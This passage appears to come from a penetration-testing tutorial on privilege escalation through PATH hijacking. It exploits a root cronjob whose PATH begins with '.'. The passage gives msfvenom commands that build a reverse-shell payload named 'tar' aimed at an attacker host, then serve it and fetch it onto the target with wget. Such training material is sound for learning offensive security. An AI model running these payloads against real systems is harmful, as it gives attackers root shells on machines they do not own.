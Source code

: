 The path can be updated to include new directories:
```bash
export PATH=$PATH:/home/kali
```

What's interesting about this however is now binaries in `/home/kali` can be access by calling their name. What if you are developing, and want to call the `local` implementation, not the one in /home/kali? 
This could mean simply adding the `cwd` or `.` to the path, like `export PATH=$PATH:.`

Lets look at a cronjob misconfiguration where we can take advantage of this fact.

```bash
# Runs a backup script every five minutes
cat /etc/crontab
SHELL=/bin/bash
PATH=.:/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root
*/5 * * * *    root      /usr/local/bin/backup.sh

# The backup script:
#!/bin/bash
cd /var/www/html/administrator
tar cf /var/backups/backuplogs.tgz logs
```

Because `$PATH` first includes the `.` it first check for the tar program in the current directory, which in the case of the script is the web root folder. This means we can put a malicious program named tar in the web root directory, which the cronjob will execute as root.

```bash
# Let's create a reverse shell payload _named_ tar
msfvenom -a x64 --platform Linux -p linux/x64/shell_reverse_tcp LHOST=172.16.1.1 LPORT=4443 -f elf-so -o tar
# Use Wget to get it to the webroot
python3 -m http.server 80
----
#Target
----
cd /var/www/html/administrator
wget http://172.16.1.1/tar
chmod +x tar
```

Once the cronjob runs, it will first execute the malicious tar payload, creating a reverse shell back to our host with root permissions. Win!


